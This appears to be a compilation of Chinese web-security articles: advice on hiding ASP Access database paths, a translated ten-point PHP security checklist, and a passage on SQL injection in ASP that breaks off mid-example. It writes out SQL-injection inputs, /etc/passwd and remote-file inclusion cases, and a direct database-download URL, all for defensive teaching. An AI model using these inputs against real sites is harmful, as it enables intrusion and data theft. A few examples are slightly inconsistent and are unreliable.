

## ASP 代码源程序下载后安全使用秘诀

### ——初做站长数据安全指南

文／星★龙

### 一、开篇初衷

网络发展速度之快不容置疑，漏洞层出不穷更让站点管理者脑筋紧绷，经常出没各大安全站点漏洞发布区，以便了解第一手资料，做到防护为先，现在已不是站点管理者杞人忧天了。不过，近日见到这样的漏洞报道：

> [Web Wiz Forums 存在密码泄露缺陷]
>
> 涉及程序：  
> Web Wiz Forums
>
> 描述：  
> Web Wiz Forums 存在密码泄露缺陷。
>
> 详细：  
> Web Wiz Forums 是一款功能强大的免费 ASP 电子公告牌系统。由于在缺省的情况下，密码文件是存储在 `admin/wwforum.mdb` 文件中，攻击者通过向目标服务器提交精心构造的下列格式的临时 HTTP 能获得密码文件：
>
> `http://www.target.com/forum/admin/wwforum.mdb`
>
> 攻击方法：  
> 示例代码：
>
> `http://www.target.com/forum/admin/wwforum.mdb`

看了文章，感觉并不是什么程序本身存在重大漏洞，或者说根本不是什么漏洞。如果这样也算漏洞，我想我可以发现几千例，这只是站点管理员的疏忽以及对安全性的无知。作为从资源站下载来的程序，直接使用无非是对安全的忽略，尤其是以 MDB 为后缀的 Access 数据库，应更改数据库原始名称，或者更改数据库[名称 + 路径]，以达到安全目的。

### 二、认识 ASP

ASP 全名 Active Server Page，ASP 并不是一种语言，而是一个 Web 服务器端的开发环境，利用它可以产生和运行动态的、交互的、高性能的 Web 服务应用程序。

- 完全和 HTML 集成；
- 易于生成，无需手工编译和连接；
- 面向对象，可以扩展 ActiveX Server 构件。

### 三、ASP 程序安装安全初识

作为一个站点的拥有者，你很容易就可以在资源下载站点搜索到你想要实现功能的 ASP 程序，因为投身于这一程序设计的人员已经相当广泛，同等功能的 ASP 源程序也是争奇斗艳，有的功能更为强大，有的界面更为科技。不过，作为一个网站管理维护人员（站长）要认识到：安全也应放在重点考虑之列。ASP 源程序安全方面代码漏洞不是初级站长所能够预见和修补的，需要我们不断地去学习和搜集资料，取得第一手信息，才能够避免你的爱站被 HACK；而由于个人使用导致安全系数降低，这是我要讲解的地方。

现在多数的 ASP 程序使用的是 MDB 格式的数据库，也就是 Access 制作而成的，这样的数据库文件在 IE 中是可以直接提交路径下载的。如果你下载了一个 ASP 程序，直接使用的话，别人可以轻松下载你的数据库文件。我利用这种管理员的疏忽轻松地夺取了某站交友列表权限，如果数据库的位置被泄露那就相当危险了。为了避免 ASP 程序的数据库文件位置被发现，首先就是要更改 MDB 的文件名字，不过也要同时更正调用文件中 MDB 的文件名。到底哪个调用文件需要更正以及哪个文件中存在 MDB 数据库文件名，一个个去查看源代码？小程序还可以，如果像“江湖”这样的大型程序，ASP 文件有几十个，这样我们可以借助工具来实现。

我介绍大家一个工具[批量文件播种机]5.50l 版本，可以实现整个程序代码查询及代码替换的功能，是站点管理人员的必备。通过这个工具可以轻松查找到数据库调用文件及数据库文件所在调用文件的位置，并能够整体替换以及随心所欲地更换数据库文件所在的目录，这样就可以解决上述问题。还有一点，ASP 程序基本上都有管理界面及超级管理 ID，我们可以将管理界面临时删除，何时使用何时上传，这样也可以减少一些安全风险。

编者语：对管理界面或关键设置程序进行文件名替换或删除的确可以从某种程度上保证自己站点的安全。这样即使管理员密码被人窃取，也不会对论坛造成非常重大的损失。不错的方法哦！

## 四、[批量文件播种机]实现提高 ASP 程序安全系数

- 1. 打开[批量文件播种机]

如图 1 所示，此软件分为 4 个区域，即文件目录显示区、文件目录文件显示区、主按钮区、文件代码显示区。文件目录显示区显示文件的具体目录及选定目录的上、下级目录；文件目录文件显示区显示所选定目录中的具体文件名，鼠标点击后，文件代码显示区将显示相应文件的具体代码，便于操作且可视性强，主按钮区包括 6 个常规按钮，下面将具体介绍。



- 2. 点击“选主目录”

点击“选主目录”按钮来界定[批量文件播种机]处理文件的范围，以动网文章管理系统为例，选中后点击“确定”，如图 2 所示。



- 3. 搜索文件

点击“设定文件”，将需要进行操作的文件类型选中，再点击“确定”后，按下“搜索文件”按钮，将出现新复选框，在搜索代码区域填写所需搜索的代码。以搜索 MDB 数据库文件及存在 MDB 数据库调用文件为例，搜索存在 MDB 数据库调用的文件及所在位置，以便更改，如图 3 所示。当然，你也可以根据需要搜索你想要改动的文件及数据。



图 3 搜索文件界面

- 4. 常规操作

实现批量更改 MDB 文件名。如果在批量替换时，将 `*.mdb` 更换为 `../*.mdb`，可实现更改 MDB 文件的调用路径。当然，你同时也需要将 MDB 文件实际保存或移动到所转换的位置。如果数据库本身为 ASP 后缀的调用形式，也可以通过此方法将路径及文件名更改，如图 4 所示。以动网文章为例，属于 ASP 后缀数据库形式。将要替换的内容及所要替换成的内容填写好后，点击“加到替换列表”，确定后，点击主面板上的常规按钮“处理文件”即可实现数据库文件名及文件位置的更改，实现初级安全设置。



图 4 操作界面

- 安全措施补充说明：

1. 尽量禁止程序中的 upload 功能，或者尽可能缩小界定上传文件的后缀类型范围，因为入侵爱好者可以通过上传危险文件从而达到浏览整站内容及夺取服务器 ADMIN 权限的可能。
2. 经常到所下载程序的官方站点查看是否有其升级程序及漏洞补丁包。
3. 尽量选用经常升级的程序，这种防黑程度相对比较高，毕竟程序员勤快起码是对使用者负责的。

---

在编写程序的过程中，如果没有相应的安全检查便会导致程序漏洞百出，安全性严重不足。从 LB 和 BBSXP 等论坛的漏洞分析我们已经可以看出，其不少都是因为缺乏安全检查的缘故。那我们应该如何提高代码的安全性呢？看完下面这篇翻译文章，你一定不会失望！

## 避免 PHP 的 10 项安全检查

文 / PsKey

Web 应用程序正逐渐成为对数据、服务和产品提供公共访问使用的一种流行方式，这是 Web 应用程序的根本优势所在，然而这些程序中的安全漏洞也是被广泛地披露和频繁地利用。编写程序的确是很容易出现些意料之外的安全隐患，这点已经被一系列的著名 Web 程序证明，包括 phpMyAdmin、PHPShop 和 FreeTrade，它们都曾有过严重漏洞。查找漏洞往往需要源代码，而一般的 Web 应用程序的代码又是开放的。因此，本文提供了 10 个步骤以帮助你在使用 PHP 编写程序的时候找出或避免诸如此类的安全漏洞。

### 一、存取文件时避免使用变量

```
试看如下代码：

php
// $lib_dir 是一个任意变量
include($lib_dir . "functions.inc");
```

## 脚本攻击防范（SCRIPTS ATTACK DEFENCE）

更糟的情况可能会是这样：

```php
// $page 是从 URL 获取值的变量
include($page);
```

用户可以任意设置变量 `$lib_dir` 和 `$page` 的值，其中包含某特殊文件（如 `/etc/passwd`），也可能是内置恶意代码的远程文件 `http://www.some-site.com/whatever.php`。这个代码可能删除文件、损坏数据库，或改变变量值而保存身份鉴定状态。

#### 1. 需要查找的内容

在代码中搜索如下函数：

- `readfile`
- `fopen`
- `file`
- `include`
- `require`

#### 2. 可行的解决方案或改进方式

- 避免把变量作为文件名。上面的 `$lib_dir` 变量可以由 PHP 的 `define` 函数来定义取代。
- 利用合法文件名列表来一一检查，例如：

```php
$valid_pages = array(
  "apage.php" => "1",
  "another.php" => "1",
  "more.php" => "1",
);
if (!isset($valid_pages[$page])) {
  die("非法请求");
}
```

- 更多关于保证变量不被恶意设置的信息请参阅下文中的“不要相信全局变量”一节。
- 利用 `allow_url_fopen` 和 `open_basedir` 配置变量来限制文件来源。

### 二、处理 SQL 语句中的特殊字符

一个很常见的错误就是，直接把用户提交的变量放到 SQL 查询语句中执行却不进行任何处理。下面这个脚本片段是用来验证由某个表单提交的用户名和密码：

```php
$query = "SELECT * FROM users WHERE username='" . $username . "' AND password='" . $password . "'";
if (record_exists($query)) {
  echo "可以访问";
} else {
  echo "拒绝访问";
}
```

当用户提交 `check.php?username=admin&password=x` 时，这段代码可以正常工作；但当用户提交 `check.php?username=admin&password=a%27+OR+1%3D1%271`（假设 `magic_quotes_gpc` 被禁用）时，`password` 会变成 `a' or 1='1`，验证就可能被绕开。

`php.ini` 配置文件中的 `magic_quotes_gpc` 变量值设为 `on` 可以在一定程度上缓解这个问题（会对 GET/POST/Cookie 数据中的引号进行转义），但该选项通常被禁用，且并不能完全依赖它。

此外，有些变量是 `magic_quotes_gpc` 保护不了的，因为某些变量值可能来自恶意用户通过正常程序操作修改后的数据库记录或文件。

#### 1. 需要查找的内容

根据你所使用的数据库软件来搜索相应的查询函数。例如你使用的是 MySQL，就应该搜索 `mysql_db_query` 函数。

#### 2. 可行的解决方案或改进方式

- 使用 `addslashes` 之类的函数把 SQL 语句中的引号和反斜杠用反斜杠过滤；
- 打开 `magic_quotes_gpc` 可能会有些帮助，但也不能全靠它；
- 如果希望 SQL 语句中的变量包含数字，就应确认其确实为数字，可用 PHP 内置函数（如 `sprintf`、`ereg`、`is_long`）进行检查。

### 三、不要相信全局变量

如果 `register_globals` 选项是打开的，PHP 会创建 HTTP 请求中 GET、POST 和 COOKIE 包含的每一个变量，这意味着非法用户可以无限制地设置变量。如下代码试图允许任意用户访问单个文章，而访问其他的文章则是需要验证的，具体是这样的：

```php
// 假设 $article_id 是由 URL 设置的
if ($article_id == 0) {
    $guest_ok = true;
}

if (!$guest_ok) {
    // 用函数对用户进行认证
    check_auth();
}
```

这段代码似乎可以正常工作，因为 `$article_id` 变量一般会初始化为 false，但要是一个恶意用户提交 `guest_ok=1` 呢？他便可以浏览任意文章了。

另一个常见问题是，使用“记住密码”这一功能把用户的认证信息保存在 cookie 中，这样某些用户可能更改 cookie 值而冒充任意用户的身份登录系统。

#### 1. 需要查找的内容

- 身份、权限验证部分；
- 变量没有进行初始化前的使用（可以使用 `error_reporting` 配置变量来提醒你：当你使用的变量没有被初始化时，它会给你警告）；
- 那些由 POST 或 GET 请求设置的变量的使用部分。

#### 2. 可行的解决方案或改进方式

- 在 `php.ini` 文件中禁止 `register_globals` 选项，这样设置后你得使用 `$HTTP_GET_VARS` 和 `$HTTP_POST_VARS` 这样的联合数组来访问 GET 和 POST 的值，虽然这样很麻烦，但可以使程序更安全。

> 译者注：从 PHP 4.2.0 版本开始，`php.ini` 中的设置选项 `register_globals` 默认值变成了 off。

自 PHP 4.1.0 版本引入的自动全局数组变量会更好些，当然 `$HTTP_*_VARS` 数组依然存在。

- 如果使用“记住密码”这项功能，可在 cookie 中包含一个密码或难猜的随机标志符（这功能可能带来其他的漏洞，如一个恶意用户和一个合法用户共同使用一台机器，他可以合法用户的身份获得访问权）；
- 初始化所有的全局变量，上面那个有缺陷的脚本应该在代码的开头把 `guest_ok` 初始化为 `false`；
- 确保 `session` 变量能正常工作；
- 确保全局变量不在 `$HTTP_POST_VARS` 或 `$HTTP_GET_VARS` 联合数组中。

### 四、解决文件上传所存在的隐患

这个实际上可归于“不可信任的全局变量”问题一类，但它值得我们把它单独拿出来讨论。当一文件上传后，PHP 脚本会给 PHP 所保存的上传文件一个临时文件名。不幸的是，任意用户都可以构造 URL 来设置这个值，比如说 `/etc/passwd`，这时 PHP 脚本处理的就不是什么上传文件了，它会直接把 `/etc/passwd` 复制到 Web 目录下某可以访问到的地方，或直接把内容反馈输出给用户的浏览器。

#### 1. 需要查找的内容

检查所有处理文件上传的脚本。直接搜索 `type="file"` 可以更快地找到这些文件。

#### 2. 可行的解决方案或改进方式

- 较新的 PHP 版本有 `is_uploaded_file` 和 `move_uploaded_file` 函数来保证脚本处理的确是上传文件；
- 如果你不能保证你的代码能否在新版 PHP 下运行，请在 `php.ini` 中设置 `upload_tmp_dir`，并作严格检查以确保所处理的文件均在所设置目录中。

### 五、把特殊字符转换为 HTML 格式

试想一个用户把 `<blink>` 标签提交到论坛会发生什么事？如果你在保存或显示输出前未做任何处理，那么跟在 `<blink>` 后面的文字就都会闪烁。当然，这种攻击方式可以更具威胁，例如攻击者可以插入一段恶性的 JavaScript 代码。

> 译者注：`<blink>` 标记只适合于 NC 浏览器。

#### 1. 需要查找的内容

检查由用户输入并将内容反馈输出的页面文件。

#### 2. 可行的解决方案或改进方式

- 在保存或显示输出前做些适当处理，可以利用 PHP 的内置函数 `htmlspecialchars` 或 `htmlentities` 来做到这点；
- 如果你允许用户使用 HTML，最好限制他们只能使用诸如 `<b>`、`<i>` 一类的基本标记。

### 六、把 .php 作为所有脚本文件的后缀

很多程序员把 `.inc` 或 `.class` 作为库文件和配置文件的后缀，然后使用 `include` 函数调用它们。若某恶意用户直接请求这些以 `.inc` 或 `.class` 为后缀的文件，他将获取这些文件中的所有内容（包括 PHP 代码）。显然，这将导致敏感信息泄露。

#### 1. 需要查找的内容

检查所有脚本的文件名。

#### 2. 可行的解决方案或改进方式

- 把 `.php` 作为所有脚本文件的后缀；
- 不要把库文件和配置文件放在 Web 根目录下。

### 七、不要把重要文件放置在根目录下

许多 PHP 系统通过用户认证或访问控制列表限制用户只能访问普通文件或图片。然而，其子目录下通常保存有一些 PHP 脚本，这样可以通过浏览器以正确的 URL 直接看到这些脚本的源文件。另外，也不要把一些重要文件放在可执行程序的根目录下，比如说一张本应受到密码保护的图片。

#### 1. 需要查找的内容

检查所有包含隐秘内容文件的目录设置。

#### 2. 可行的解决方案或改进方式

- 把重要文件放置在根目录之外；
- 把这些重要内容保存到数据库中；
- 利用 Web 平台的特性，如 Apache 的 `htaccess` 文件来避免用户直接访问这些文件目录。

### 八、提防共享服务器上的其他用户

许多 PHP 站点放置在多人同时使用的服务器之上，其他用户可能通过一个 PHP 脚本或 Webshell 来修改、访问或删除你的文件或得到数据库密码。另一个潜在的威胁是，其他恶意用户可能创建一个 session 文件（默认保存在 `/tmp` 目录下）来绕过你站点中的认证。

#### 1. 需要查找的内容

如果你使用的是这样的服务器，可以用 `phpinfo` 函数来看看服务器的配置，同时也得检查敏感文件的权限设置。

#### 2. 可行的解决方案或改进方式

- 使用专用服务器，尽管价格不菲，但这笔花销带来了安全和效率；
- 确保所用服务器打开了 `safe_mode` 选项（可使用 `phpinfo` 函数查看），然而这样会使其他一些程序不能执行，会在一定程度上限制你站点的功能；
- 设置文件权限，其他用户即使知道文件名也只能读（在 UNIX 系统上把目录权限设置为 711）。

### 九、避免错综复杂的变量类型

为了适应当前所用，PHP 经常转换变量的类型。这些问题很难发现，但它的确造成了 phpMyAdmin 之类的流行软件的漏洞。我们来看下面的代码：

```php
<?php
$users[0] = "...";
$users[1] = "password1";
$users[2] = "password2";

// 检查用户提供的 $user_id 是否为 0、1 或 2
if ($user_id < 0 || $user_id > 2 || !isset($users[$user_id])) {
    die("Invalid user ID");
}

// 检查注册用户输入的密码是否正确
if ($user_id != 0 && $password != $users[$user_id]) {
    die("Password invalid");
}

// 告诉用户其所属类型
if ($user_id) {
    echo "You are an authenticated user";
} else {
    echo "You are a guest user";
}
?>
```

代码似乎是对 `$user_id` 进行了全面的检查，但要是 `$user_id` 的值为 `00` 或 `a` 的时候，验证就被轻易地绕开了。

#### 1. 需要查找的内容

这类缺陷是很难识别的，但如下几个地方是比较容易出问题的：

- 对用户输入的数字值进行比较判断的地方；
- 矛盾或多余的表达式，如把 `if ($x != 0)` 和 `if ($x)` 放在一起。

#### 2. 可行的解决方案或改进方式

- 注意把用户输入值的类型转换为某特定类型；
- 使用像 `is_long` 这样的类型检查函数。

### 十、命令执行语句避免（或转化）用户输入

使用像 `exec` 和 `eval` 这样的函数，可以使你的程序变得更加灵活，但必须谨慎，要避免用户执行任意命令。

#### 1. 需要查找的内容

检查所有能执行系统命令的函数或 PHP 代码：

- `eval`
- `preg_replace`（与 `/e` 开关一起使用时，替换字符串将被解释为 PHP 代码）
- `exec`
- `passthru`
- `system`
- `popen`
- `` ` ` ``（反引号，可以执行命令）

代码之外的讨论——牢固的整体安全设计

如上所有的步骤都是和编程有关的，但在着手编写程序之前，若能在整体上作出完善的考虑，很大程度上可以决定程序的安全性，如下有一些基本技巧：

- 考虑采用 HTTPS 加密传输，这点很重要，哪怕你的私有信息并不那么重要，窃听者可以获取你的密码和 session 认证信息并利用它们来躲开你程序的安全验证。
- 考虑采用主机/域名或 IP 地址来限制用户访问敏感页面。利用 Web 平台的特性如 Apache 的 `.htaccess` 文件来做到这点，或者在脚本中使用诸如 `$REMOTE_ADDR` 之类的变量来检查。
- 用已有的安全包来进行验证，如 PHPLib。

### 结论

任何语言都存在安全隐患，但如果我们能够将注意力集中到这些弱点，便可避免很多安全漏洞。把本文所示的 10 个步骤作为日常编写、检查代码的一部分工作来实行，可以给我们带来更为安全的应用程序。

### 参考

- A Study In Scarlet – Exploiting Common Vulnerabilities in PHP Applications – Shaun Clowes, SecureReality
- Security flaws in PHP – Jo Henrik Endrerud, zez.org
- PHP Manual – Stig Søther Bakken, et al, PHP.

原文：Ten Security Checks for PHP  
原著：Clancy Malcolm <clancym@domnet.com.au>

注：本文原为两部分，原文网址：http://www.oreillynet.com/pub/a/1150。

> 面对互联网上形形色色的网站程序，我们知道它们大部分是以现在流行的 ASP 程序来编写的，而且目前 ASP 的安全性也让人担忧，本文以脚本分析方式向你详细描述在使用 ASP 编写网页程序时应该注意哪些方面，以此来提高你网站的安全系数。

## 安全的 ASP 程序

文/shocker



### 一、输入有效性

#### 1. SQL Injection 问题

ASP 程序通常是动态地创建 SQL 查询语句，像下面这样：

```vb
strSQL = "select * from users where username='" & request.form("username") & "' and password='" & request.form("password") & "'"
```

其中，`request.form` 就是获得用户在 HTML 表单中输入的内容，但是上面的 ASP 语句却没有检查 ASP 程序中用户输入的内容，这就导致了用户可以输入任何内容来构成 SQL 查询语句，从而可以提交任意的 SQL 查询。

现在，让我们来看一个登录表单的脚本例子，这里脚本试图获得用户提交给 ASP 程序的用户名和密码。下面一部分代码是证明用户是否提交了一个有效的用户名和密码：

```vb
username = request.form("username")
password = request.form("password")
strSQL = "select * from users where username='" & username & "' and password='" & password & "'"
set objRS = objDB.execute(strSQL)
if (objRS.EOF) then
    response.redirect("LoginFailed.asp")
end if

end if
（用户有效，进行其他的过程）
```

当用户名和密码能在数据库查到时，就继续运行；如果查不到的话（即 `objRS.EOF` 为空），则重定向到 `LoginFailed.asp` 页面。

下面，我们来分析一下脚本中的问题，假如用户提交了如下数据：

```text
Username, shocker
Password, 1234567
```

那么，这个字符串 `strSQL` 就变成了：

```sql
select * from users where username = 'shocker' and password = '1234567'
```

这时，脚本可以很好地运行。如果数据库中有 shocker 这个用户并且密码是 1234567 的话，SQL 查询就会找到所有关于 shocker 这个用户资料的字段，但是如果我们提交的是：

```text
Username, shocker'--
Password, abcdefg
```

这个字符串 `strSQL` 就变成了：

```sql
select * from users where username = 'shocker'--' and password = '1234567'
```

